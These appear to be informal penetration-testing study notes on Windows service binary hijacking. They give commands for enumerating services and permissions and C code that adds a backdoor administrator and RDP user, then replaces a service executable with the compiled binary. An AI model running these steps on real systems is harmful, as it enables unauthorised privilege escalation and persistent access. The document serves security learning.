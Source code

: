 to get a list of all installed windows services:
GUI: services.msc
- Get-Services
- Get-CimInstance

- Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
finding the win32 service that's running showing name state and location

using either
icacls: can be used in powershell and cmd
- Get-ACL
we can enumerate permission

icacls "C:\xampp\apache\bin\httpd.exe"
example of icacls usage


#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 Password123@ /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}

optional to add dave2 into rdp
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 Password123@ /add");
  i = system ("net localgroup administrators dave2 /add");
  i = system("net localgroup \"Remote Desktop Users\" dave2 /add");
  
  return 0;
}

remember to do \!


create a user named dave2 and add user to local Admin group 

x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
compiling with mingw32 
--shared to build dll

we serve the exe
move the vulnerable exe using move to home directory using:
move <path from icacls>.exe <name>.exe
move .\<expliot>.exe <path from icacls with original name>.exe

we can use:
net stop <service> 
to try and restart the service
